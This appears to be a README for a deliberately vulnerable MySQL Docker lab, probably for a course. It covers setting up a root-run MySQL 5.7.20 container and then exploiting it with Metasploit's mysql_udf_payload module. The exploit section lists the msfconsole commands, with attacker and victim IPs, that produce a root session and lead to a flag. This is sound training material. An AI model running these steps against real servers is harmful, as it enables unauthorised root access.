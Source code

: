 # Overview
These instructions will create a MySQL 5.7.20 instance inside a Docker container on a Ubuntu 22.04 server. The server is vulnerable to the /multi/mysql/mysql_udf_payload exploit in Metasploit. The MySQL service is running as root, allowing an attacker to gain privilege escalation on the target system. I shouldn't have to say this out loud, but this should ABSOLUTELY NOT under any circumstances be used in a production environment.
# Setup
1. Download files to build container
    ```
    $ wget https://raw.githubusercontent.com/TechGeek001/Netsec/main/mysqldb/mysqldb-UbuntuServerX86-64.sh
    $ chmod +x mysqldb-UbuntuServerX86-64.sh
    $ ./mysqldb-UbuntuServerX86-64.sh
    ```
2. Navigate to the newly created directory and build the Docker container
    ```
    $ cd mysqldb/mysqldb/UbuntuServerX86-64
    ```
3. Build and run the Docker container
    ```
    $ docker build -t tmysqldb .
    $ docker run -d --name mysqldb --dns 192.168.25.10 --dns-search netsec-docker.isi.jhu.edu --privileged --network host tmysqldb:latest
    ```
4. Exec into the Docker container
    ```
    $ docker exec -it mysqldb bash
    ```
5. Finish configuring MySQL (this can't be done during the build)
    ```
    # cd /root
    # chmod +x setup.sh
    # ./setup.sh
    ```
    The setup script populates the databases, creates administrative users with the correct permissions, and removes the /root/temp folder.
# Exploit
This procedure was tested on Kali Linux 22.04 using Metasploit Framework 6.4.2-dev
1. Start the MSF Console
   ```
   $ sudo msfconsole
   ```
2. Select the desired exploit
    ```
    > use exploit/multi/mysql/mysql_udf_payload
    ```
3. Set the correct options. In this example, the attacker is 1.1.1.1 and the victim is 2.2.2.2
    ```
    > set LHOST 1.1.1.1
    > set SRVHOST 1.1.1.1
    > set RHOST 2.2.2.2
    > set USERNAME <username>
    > set PASSWORD <password>
    > set target 1
    > exploit
    ```
    Note: MSF will claim that the exploit fails, but the session is still created. Not sure why this happens.
4. Open the session (in this example, it is session 1) and test to see which user this payload is running as.
    ```
    > sessions -i 1
    > show guid
    Server username: root
    ```
5. The flag is located in ```/root```
